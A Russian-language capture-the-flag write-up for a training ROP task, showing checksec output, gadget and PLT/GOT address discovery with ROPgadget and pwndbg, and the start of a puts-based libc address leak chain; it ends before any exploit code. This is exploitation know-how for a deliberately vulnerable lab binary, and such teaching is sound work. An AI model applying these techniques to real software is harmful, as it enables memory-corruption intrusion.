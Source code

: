 # WRITEUP.md

### Description

Простая таска на использование техники с `ROP` гаджетам цепачками.

### Solition


#### Step 1 - Проверка средс безопасности - checksec

Смотрим какие средства безопасности были использованы при комплияции бинаря, для этого используется утилита `checksec`:

![](img/img1.png)

```
$ checksec --file=main
[*] '/home/luksa/git/BugHunters_Lab/pwn-sprush/tasks/03-static-rop/app/main'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

#### Step 2 - Получаем адрес POP RDI

Узнаем адрес `pop rdi; ret`, есть 2 варианта:
- использовать утилиту `ROPgadget`;
- использовать `gdbpwn`;

Первый вариант, используем `ROPgadget`:

![](img/img2.png)
![](img/img3.png)

```
$ ROPgadget --binary ./main

Gadgets information
============================================================
0x0000000000401057 : add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x401020
0x00000000004010bb : add bh, bh ; loopne 0x401125 ; nop ; ret
0x0000000000401037 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x401020
< ... SKIP ... >

0x00000000004010b6 : or dword ptr [rdi + 0x404028], edi ; jmp rax
0x000000000040112d : pop rbp ; ret
0x000000000040114a : pop rdi ; ret

< ... SKIP ... >

Unique gadgets found: 64
```

Второй вариант, используем `gdbpwn`:

![](img/img4.png)

```
└─$ gdb-pwndbg main
Reading symbols from main...
(No debugging symbols found in main)
pwndbg> 
pwndbg> x/32i ROP
   0x401146 <ROP>:	push   rbp
   0x401147 <ROP+1>:	mov    rbp,rsp
   0x40114a <ROP+4>:	pop    rdi
   0x40114b <ROP+5>:	ret
   0x40114c <ROP+6>:	nop
   0x40114d <ROP+7>:	pop    rbp
   0x40114e <ROP+8>:	ret
   0x40114f <func>:     push   rbp
   0x401150 <func+1>:	mov    rbp,rsp
   0x401153 <func+4>:	sub    rsp,0x20
   0x401157 <func+8>:	lea    rax,[rbp-0x20]
   0x40115b <func+12>:	mov    edx,0x100
   0x401160 <func+17>:	mov    rsi,rax
   0x401163 <func+20>:	mov    edi,0x0
   0x401168 <func+25>:	call   0x401040 <read@plt>

```

Получем адрес `pop_rdi = 0x40114a`


#### Step 3 - Получем адреса puts@plt / puts@got.plt

Требуется получить адреса puts@plt и puts@got.plt, для этого выполняем:
 1. выполняем `info functions`
 2. извлекаем адрес обертки `puts@plt`
 3. извлекаем адрес `puts@got.plt` где должен лежать `libc.so`

![](img/img5.png)

```
pwndbg> info functions 
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  read@plt
0x0000000000401050  setvbuf@plt
0x0000000000401060  _start
0x0000000000401090  _dl_relocate_static_pie
0x00000000004010a0  deregister_tm_clones
0x00000000004010d0  register_tm_clones
0x0000000000401110  __do_global_dtors_aux
0x0000000000401140  frame_dummy
0x0000000000401146  ROP
0x000000000040114f  func
0x0000000000401170  main
0x00000000004011d0  _fini
pwndbg> x/8i 0x0000000000401030
   0x401030 <puts@plt>:	        jmp    QWORD PTR [rip+0x2fca]   # 0x404000 <puts@got.plt>
   0x401036 <puts@plt+6>:	    push   0x0
   0x40103b <puts@plt+11>:	    jmp    0x401020
   0x401040 <read@plt>:	        jmp    QWORD PTR [rip+0x2fc2]   # 0x404008 <read@got.plt>
   0x401046 <read@plt+6>:	    push   0x1
   0x40104b <read@plt+11>:	    jmp    0x401020
   0x401050 <setvbuf@plt>:	    jmp    QWORD PTR [rip+0x2fba]   # 0x404010 <setvbuf@got.plt>
   0x401056 <setvbuf@plt+6>:    push   0x2

```

Получаем адреса:
 - puts@plt = 0x401030
 - puts@got.plt = 0x404000

#### Step 4 - первая честь эксплойта

В вашем коде используется 64-битный calling convention, где первый аргумент передаётся через регистр RDI. Цепочка ROP должна:

 1. Положить адрес (в данном случае адрес GOT записи для puts) в RDI
 2. Вызвать puts@plt (который выведет значение по этому адресу)
 3. Вернуться в main для второго этапа эксплойта
